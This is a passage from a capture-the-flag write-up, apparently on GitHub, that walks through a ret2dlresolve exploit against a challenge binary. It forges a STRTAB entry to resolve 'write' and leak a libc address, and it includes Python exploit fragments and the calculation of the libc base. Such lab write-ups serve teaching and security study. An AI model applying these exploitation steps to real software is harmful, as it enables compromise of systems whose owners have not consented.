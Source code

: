 Wait! The hint was we can use `write(0, buf, numofbyte)` to print things out (rdi is always 0) so in the STRTAB structure, we will change from `system` to `write` to print out the resolved libc address. This is the updated of STRTAB structure:

```
STRTAB = 0x4002c0

STRTAB_addr = rw_section + 0x80
st_name = STRTAB_addr - STRTAB

STRTAB_struct = b"write\x00\x00\x00"
STRTAB_struct += p64(0)
```

Running script to here and debug with gdb, we know we ret2dlresolve successfully:

![get_write_libc_function.png](images/get_write_libc_function.png)

This is the function write in libc. Let's check if the rsi contain the address point to r_offset or not:

![rsi_contain_write_libc_address.png](images/rsi_contain_write_libc_address.png)

And here it is! Running through the write function and we get the address of write leaked:

![write_address_leaked.png](images/write_address_leaked.png)

Getting that leak and parsing it with the following code, we can get the libc base address:

```
# Get leaked address
write_addr = u64(p.recv(8))
log.success('Leak address: ' + hex(write_addr))
libc_base = write_addr - 0x1111d0
log.success('Libc base: ' + hex(libc_base))
```
